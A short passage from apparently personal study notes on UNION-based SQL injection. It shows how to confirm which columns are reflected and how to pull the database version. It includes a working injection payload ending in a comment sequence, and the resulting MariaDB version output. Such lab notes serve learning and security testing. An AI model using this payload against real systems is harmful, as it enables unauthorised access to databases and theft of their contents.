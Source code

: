 If only `2`, `3`, and `4` are displayed, then only columns 2-4 are reflected back to the user.
#### Extracting Real Data

Replace one of the displayed numeric values with a SQL expression to test data retrieval:

```
cn' UNION SELECT 1,@@version,3,4-- -
```

Output:

```
10.3.22-MariaDB-1ubuntu1, 3, 4
```

This confirms the injection works and that column 2 is a good place for data extraction.
# Tags
> #Exploitation #Service-Exploitation #MySQL